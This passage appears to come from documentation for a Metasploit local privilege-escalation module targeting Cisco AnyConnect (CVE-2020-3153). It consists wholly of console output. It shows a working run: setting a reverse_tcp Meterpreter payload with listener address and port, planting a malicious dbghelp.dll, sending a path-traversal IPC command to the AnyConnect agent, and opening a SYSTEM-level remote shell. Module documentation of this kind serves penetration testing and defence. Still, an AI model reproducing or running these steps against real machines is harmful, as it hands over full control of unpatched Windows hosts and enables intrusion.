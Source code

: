```
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : W
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : fr_FR
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
### Windows 7 SP1  with AnyConnect 4.7.4056 - CVE-2020-3153

```
msf5 exploit(windows/local/anyconnect_lpe) > set session 4
session => 4
msf5 exploit(windows/local/anyconnect_lpe) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/anyconnect_lpe) > set lhost 192.168.1.24
lhost => 192.168.1.24
msf5 exploit(windows/local/anyconnect_lpe) > set lport 4445
lport => 4445
msf5 exploit(windows/local/anyconnect_lpe) > set verbose true
verbose => true
msf5 exploit(windows/local/anyconnect_lpe) > set cve CVE-2020-3153
cve => CVE-2020-3153
msf5 exploit(windows/local/anyconnect_lpe) > check 

[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.7.4056.0.0 < 4.8.02042 (CVE-2020-3153 & CVE-2020-3433).
msf5 exploit(windows/local/anyconnect_lpe) > run

[*] Started reverse TCP handler on 192.168.1.24:4445 
[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.7.4056.0.0 < 4.8.02042 (CVE-2020-3153 & CVE-2020-3433).
[*] "-ipc" argument needed
[*] Writing the payload to C:\ProgramData\Cisco\dbghelp.dll
[*] IPC Command: "CAC-nc-install        -ipc=29278      C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\iZnG\iZnG\iZnG\iZnG\../../../../vpndownloader.exe     -"
[*] Connecting to the AnyConnect agent on 127.0.0.1:62522
[*] Send the encoded IPC command (size = 270 bytes)
[*] Sending stage (176195 bytes) to 192.168.1.20
[*] Meterpreter session 5 opened (192.168.1.24:4445 -> 192.168.1.20:45098) at 2020-09-01 14:23:13 +0200
[+] Deleted C:\ProgramData\Cisco\dbghelp.dll
[+] Deleted C:\ProgramData\Cisco\vpndownloader.exe
[*] Shutdown the socket

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : ATGO-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
```